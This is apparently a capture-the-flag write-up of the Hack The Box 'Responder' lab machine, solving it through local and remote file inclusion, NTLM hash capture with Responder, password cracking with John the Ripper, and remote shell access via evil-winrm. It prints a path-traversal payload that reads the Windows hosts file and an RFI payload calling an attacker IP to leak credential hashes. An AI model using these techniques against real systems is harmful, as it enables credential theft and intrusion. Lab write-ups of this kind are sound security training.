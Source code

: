 This is the responder ctf from tier 1 starting point and it's difficulty is very easy.

task1:We try visiting the web service using the ip address but are redirected  to another domain. which is "unika.htb".
![alt text](images/responder_1.png)

task 2: On using curl -I we can see info about the as X-powered by: php
![alt text](images/responder_2.png)

Now when we try to open the url in the browser we get something like this...
![alt text](images/responder_6.png)
This happens because of virtual hosting. The connected server may be hosting multiple websites that need to be accessed using their correct hostname.

By default, when we access a website using an IP address, our HTTP request does not include the expected hostname in the Host header. Since the hostname (unika.htb) isn't available in our /etc/hosts file or any nearby DNS server, the server doesn't know which website to serve, leading to redirection or an error.

To fix this, we manually add an entry in /etc/hosts specifying that requests to that IP should be associated with "unika.htb". This ensures that when a request is sent to the server, it includes the correct Host header (unika.htb), allowing us to connect to the intended website.

So, first add the host name in the file.
use nano /etc/hosts to open the file,
![alt text](images/responder_4.png)
Now enter the host name into it.
![alt text](images/responder_5.png)
On reloading the site now we get...
![alt text](images/responder_3.png)

We use the page URL parameter to load different language versions of the webpage (task 3).
Just add ?page=german.html to the URL
![alt text](images/responder_7.png)
and now we get the page in German
![alt text](images/responder_8.png)

task 4: the option which exploits a LFI(Local File Include) vulnerability is the third option -> "../../../../../../../../windows/system32/drivers/etc/hosts"
As this option tries to traverse backwards and then traverse to a system file "hosts".
![alt text](images/responder_9.png)

task 5: "//10.10.14.6/somefile" is a RFI (remote file inclusion) vulnerability. This allows us to load some file into the server file system. Such files could be malicious scripts which would cause harm to the server.

task 6: NTLM is New Technology LAN Manager, it is a protocol that authenticates users and computers on a network.

task 7:
Responder uses the -I flag to specify network interface.

task 8:
The tool is John the ripper. We use this to crack passwords.

task 9:
First we get the ip using 
![alt text](images/responder_10.png)
We then run our responder tool
![alt text](images/responder_12.png)
now we use this ip in the URL http://unika.htb/?page=//< ip >>/somefile
![alt text](images/responder_11.png)
When we return to the terminal running responder we see...
![alt text](images/responder_13.png)
NetNTLMv hash is captured.Save that hash to a file.
![alt text](images/responder_14.png)

Now we need to crack the hash for which we use John the ripper.
![alt text](images/responder_15.png)
We use the rockyou.txt file which containts commonly used passwords.
Hence we got the admin password as badminton.

task10: By a nmap scan we find the port running tcp
![alt text](images/responder_16.png)

To access the windows machine(server) remotely we use evil-winrm which helps to access it via window remote management (winrm). It provides a remote shell access to the windows machine.
![alt text](images/responder_17.png)
Now we navigate through the folders searching for flag.txt
We will find it in user/mike/Dektop
use "type flag.txt" to get the flag content.
![alt text](images/responder_18.png)